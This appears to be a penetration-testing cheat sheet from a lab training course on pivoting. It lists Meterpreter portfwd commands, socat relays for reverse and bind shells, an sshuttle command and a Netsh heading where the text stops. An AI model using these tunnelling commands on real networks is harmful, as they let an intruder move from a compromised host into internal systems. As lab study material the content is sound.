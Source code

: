 #### Creating Local TCP Relay

```shell
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

## Meterpreter Reverse Port Forwarding

```shell
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

# <span style="color:#9fef00">Socat Redirection with a Reverse Shell </span>


#### Socat Ridrect RDP from remote host 

```c
socat TCP-LISTEN:3389,fork,reuseaddr TCP:<Remote-host-address>:3389 &
```

#### Starting Socat Listener

```c
ubuntu@Webserver:~$ socat TCP-LISTEN:3389,fork,reuseaddr TCP:172.16.5.19:3389
```


# <span style="color:#9fef00"> Socat Redirection with a Bind Shell </span>

```c
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```


# <span style="color:#9fef00">SSH Pivoting with Sshuttle </span>

```shell
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v 
```


# <span style="color:#9fef00">Port Forwarding with Windows Netsh</span>

#### Using Netsh.exe to Port Forward
